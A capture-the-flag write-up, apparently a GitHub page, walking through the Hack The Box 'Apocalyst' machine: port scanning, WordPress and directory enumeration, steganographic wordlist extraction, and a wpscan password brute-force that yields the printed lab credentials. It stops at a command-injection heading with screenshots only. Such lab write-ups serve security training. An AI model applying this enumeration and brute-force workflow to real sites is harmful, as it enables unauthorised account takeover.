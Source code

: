 # Hack the Box - Apocalyst

```CSS
Machine IP: 10.10.10.46
```

## NMAP
```CSS
▶ nmap -Pn -sS -p- 10.10.10.46 -T4 --min-rate 1000 -oN surface.nmap

Nmap scan report for 10.10.10.46
Host is up (0.19s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
```CSS
▶ nmap -sV -sC -p 22,80 10.10.10.46 -oN deep.nmap

Nmap scan report for 10.10.10.46
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fdab0fc922d5f48f7a0a2911b404dac9 (RSA)
|   256 7692390a57bdf0032678c7db1a66a5bc (ECDSA)
|_  256 1212cff17fbe431fd5e66d908425c8bd (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apocalypse Preparation Blog
|_http-generator: WordPress 4.8
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.18 seconds
```

---

## HTTP
![image](https://user-images.githubusercontent.com/83878909/234799547-1b6562ae-e097-4a3a-9754-2e248dd220c4.png)

```CSS
echo "10.10.10.46 apocalyst.htb" >> /etc/hosts
```

![image](https://user-images.githubusercontent.com/83878909/234800289-380fc0b7-bc5b-4345-85f8-9bccb4587432.png)

![image](https://user-images.githubusercontent.com/83878909/234801910-0504a32c-a82c-42f7-9d3a-6bf60cd08204.png)

---

## WordPress
  - WPScan
```CSS
▶ wpscan --url http://apocalyst.htb --enumerate vt,tt,u,ap
```
![image](https://user-images.githubusercontent.com/83878909/234813681-91b0486b-2fd0-4c1b-91db-1cbc0e6aa921.png)
  - Username found, no other useful information was given by wpscan.
```CSS
▶ Username: falaraki
```

---

## Content Discovery
  - Gobuster
```CSS
▶ gobuster dir -u http://apocalyst.htb -w /seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --add-slash --threads 50 --exclude-length 157
```
![image](https://user-images.githubusercontent.com/83878909/234814248-b2ce6fa6-335f-47f0-9150-4a97ce13774e.png)


### Custom Wordlist
```CSS
▶ cewl http://apocalyst.htb -w apocalyst.lst
```

### Content Discovery - Custom Worlist
  - Gobuster
```CSS
▶ gobuster dir -u http://apocalyst.htb -w apocalyst.lst --add-slash --threads 50 --exclude-length 157
```
![image](https://user-images.githubusercontent.com/83878909/234815066-2eb4c565-5800-44b4-9843-a0f45ac84797.png)
![image](https://user-images.githubusercontent.com/83878909/234815258-c8eff383-2cde-41c5-84fb-304e757ca0bf.png)

---

## Stegnography
  - Extract data from the image.
```CSS
▶ steghide extract -sf image.jpg
```
  - Wordlist
![image](https://user-images.githubusercontent.com/83878909/234817333-503e3c8e-a882-48f7-9560-74d930d56867.png)

---

## WordPress Credentials Brute-Force
  - WPScan to brute-force user `falaraki`'s password.
```CSS
▶ wpscan --url http://apocalyst.htb --passwords list.txt --usernames falaraki
```
![image](https://user-images.githubusercontent.com/83878909/234819624-ea7096ae-0f37-4a32-bace-63ff7bfb7b91.png)
```CSS
Credentials: falaraki:Transclisiation
```

---

## WordPress Command Injection
  - Login to Wordpress.
![image](https://user-images.githubusercontent.com/83878909/234836050-ea4e4edf-7f91-43d5-b761-fdd6f0d2376b.png)

![image](https://user-images.githubusercontent.com/83878909/234836839-e3e1e0c4-d800-4e97-bf9b-e2a6343295c1.png)
![image](https://user-images.githubusercontent.com/83878909/234837446-329b574b-932d-4681-84f2-4bb6e3236f31.png)

